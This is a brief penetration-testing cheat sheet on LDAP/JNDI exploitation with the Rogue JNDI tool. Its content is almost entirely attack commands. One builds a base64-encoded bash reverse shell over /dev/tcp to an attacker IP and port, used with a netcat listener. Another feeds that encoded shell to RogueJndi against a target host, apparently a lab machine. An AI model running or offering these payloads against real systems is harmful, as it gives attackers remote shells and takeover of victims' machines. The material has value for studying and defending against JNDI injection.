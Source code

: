 # LDAP Exploitation

## Using Rogue JNDI

Java Naming and Directory Interface is a Common interface to interact with Naming and Directory Services.&#x20;

To know more read [this](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf). &#x20;

### Bash reverse shell

Base 64 encoded reverse shell payload:

```
echo "bash -c bash -i >& /dev/tcp/<IP ADDRESS>/<PORT> 0>&1" | base64
```

Start a netcat listener on the PORT.

Use base 64 encoded payload for Rogue JNDI&#x20;

```
java -jar RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNy80NDQ0IDA+JjEiCg==}|{base64,-d}|{bash,-i}" --hostname "10.129.56.33"
```





